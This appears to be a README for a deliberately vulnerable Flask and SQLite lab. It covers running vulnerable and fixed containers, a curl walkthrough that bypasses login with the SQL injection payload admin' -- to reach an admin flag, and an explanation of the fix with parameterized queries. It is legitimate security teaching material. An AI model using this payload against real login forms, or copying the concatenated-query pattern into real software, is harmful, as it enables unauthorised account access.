

# Web Exploitation Lab (SQL Injection) — Flask + SQLite

A minimal Flask app with a deliberately vulnerable login that is susceptible to SQL injection.

You’ll build and run both a **vulnerable** and a **fixed** version.

## What you’ll learn

- Recognizing classic SQL injection patterns
- Exploiting a vulnerable login query
- Fixing SQL injection using parameterized queries

## Project structure

```
web-exploitation-sqli/
  README.md
  exploit_sqli.sh
  vulnerable/
    Dockerfile
    app/
      app.py
      requirements.txt
  fixed/
    Dockerfile
    app/
      app.py
      requirements.txt
```

## Screenshot



---

## Run from GHCR

Images are published to GHCR by the workflow in this repo. `docker run` will pull automatically if needed.

Example (vulnerable from GHCR):

```bash
docker run --rm -it \
  --name flask-sqli-vuln \
  -p 8080:8000 \
  ghcr.io/debaa17/cybersecurity-labs/flask-sqli:vuln
```

Example (fixed from GHCR):

```bash
docker run --rm -it \
  --name flask-sqli-fixed \
  -p 8081:8000 \
  ghcr.io/debaa17/cybersecurity-labs/flask-sqli:fixed
```

---

## Build images (vulnerable + fixed)

From this directory:

```bash
cd labs/web-exploitation-sqli

# Vulnerable image
docker build -t cyberlabs/flask-sqli:vuln -f vulnerable/Dockerfile vulnerable

# Fixed image
docker build -t cyberlabs/flask-sqli:fixed -f fixed/Dockerfile fixed
```

---

## Run (vulnerable)

Create a dedicated lab network (optional, but keeps things tidy and is Podman-compatible):

```bash
docker network create cyberlabs-net
```

Run the vulnerable container:

```bash
docker run --rm -it \
  --name flask-sqli-vuln \
  --network cyberlabs-net \
  -p 8080:8000 \
  cyberlabs/flask-sqli:vuln
```

Port mapping note: the app listens on **container port 8000**, and the command above maps it to **host port 8080**.

- Use: http://127.0.0.1:8080/
- If you prefer host port 8000 instead, run: `docker run ... -p 8000:8000 ...` and then open http://127.0.0.1:8000/

Open:

- http://127.0.0.1:8080/

Quick troubleshooting:

```bash
docker ps
docker logs flask-sqli-vuln --tail 50
docker port flask-sqli-vuln
```

Seeded credentials (useful for baseline testing):

- `admin` / `SuperSecret123`
- `alice` / `password1`

---

## Exploit walkthrough (manual)

The vulnerable login builds SQL using string concatenation.

1) Confirm the app is up:

```bash
curl -s http://127.0.0.1:8080/ | head
```

2) Attempt a normal login (should fail unless you use the seeded credentials):

```bash
curl -i -X POST http://127.0.0.1:8080/login \
  -d 'username=admin' \
  -d 'password=wrong'
```

3) Bypass authentication via SQL injection:

```bash
curl -i -X POST http://127.0.0.1:8080/login \
  -d "username=admin' -- " \
  -d 'password=doesnotmatter'
```

4) Use the issued session cookie to access the admin page:

```bash
# Copy the session cookie from the Set-Cookie header in the previous response.
# Example:
#   Set-Cookie: session=...; HttpOnly; Path=/

curl -i http://127.0.0.1:8080/admin \
  -H 'Cookie: session=PASTE_COOKIE_HERE'
```

If you got `403 Forbidden` here, it almost always means the cookie wasn’t included (or you pasted it incorrectly).

Here’s a clean way to do it with a cookie jar:

```bash
# 1) Log in with the SQLi payload and store the session cookie
curl -i -c cookiejar.txt -X POST http://127.0.0.1:8080/login \
  -d "username=admin' -- " \
  -d 'password=anything'

# 2) Use the stored cookie to access /admin
curl -i -b cookiejar.txt http://127.0.0.1:8080/admin
```

Expected: admin-only content including a flag.

---

## Exploit walkthrough (optional script)

From another terminal (while the vulnerable container is running):

```bash
# If needed:
chmod +x ./exploit_sqli.sh

./exploit_sqli.sh
```

---

## Run (fixed)

```bash
docker run --rm -it \
  --name flask-sqli-fixed \
  --network cyberlabs-net \
  -p 8081:8000 \
  cyberlabs/flask-sqli:fixed
```

Try the same injection against the fixed version:

```bash
curl -i -X POST http://127.0.0.1:8081/login \
  -d "username=admin' -- " \
  -d 'password=doesnotmatter'
```

Expected: authentication **does not** bypass.

---

## Cleanup

```bash
docker network rm cyberlabs-net
```

---

## Why this is vulnerable

The vulnerable app does something equivalent to:

- `SELECT ... FROM users WHERE username = '${username}' AND password = '${password}'`

An attacker can terminate the string and comment out the rest of the query.

## How it’s fixed

The fixed app uses **parameterized queries** (`?` placeholders in SQLite), which prevents user input from being interpreted as SQL code.
